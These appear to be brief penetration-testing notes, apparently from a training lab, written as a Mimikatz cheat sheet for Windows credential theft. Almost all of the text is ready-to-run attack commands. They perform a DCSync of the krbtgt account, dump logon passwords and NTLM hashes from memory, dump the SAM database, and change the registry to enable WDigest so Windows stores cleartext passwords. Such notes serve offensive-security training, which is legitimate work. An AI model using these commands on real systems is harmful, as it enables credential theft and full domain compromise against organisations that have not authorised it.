 
debug
```powershell-session
privilege::debug
```

dcsync attack
```powershell-session
PS C:\Tools> cd .\mimikatz\x64\
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt
```

Extract NTLM hashes for users on local host
```
privilege::debug 
sekurlsa::logonpasswords
```

Dump SAM
```
lsadump::sam
```

If password hash not crackable enable wdigest in registry
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

